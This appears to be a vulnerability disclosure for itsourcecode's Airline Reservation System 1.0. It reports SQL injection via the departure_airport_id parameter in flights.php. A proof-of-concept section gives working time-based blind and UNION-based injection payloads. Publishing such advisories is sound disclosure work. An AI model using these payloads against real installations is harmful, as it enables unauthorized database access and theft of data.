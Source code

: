 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Vulnerabilities

SQLi

# Description

In the flights. php page, the occurrence of SQLi injection is due to insufficient filtering of the departure_airport_id parameter.
<img width="1471" alt="image" src="https://github.com/user-attachments/assets/362553a3-ff75-4d57-8660-0b1696b0caf7">

# Poc
```
Parameter: departure_airport_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: departure_airport_id=4' AND (SELECT 5140 FROM (SELECT(SLEEP(5)))gVLv) AND 'NWps'='NWps&arrival_airport_id=4&date=&date_return=&trip=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: departure_airport_id=4' UNION ALL SELECT CONCAT(0x7176767071,0x424b506d6250536942685a4254456d74566f536244496e6351716f4a6974504149794b5370625a54,0x71767a7a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&arrival_airport_id=4&date=&date_return=&trip=1
```
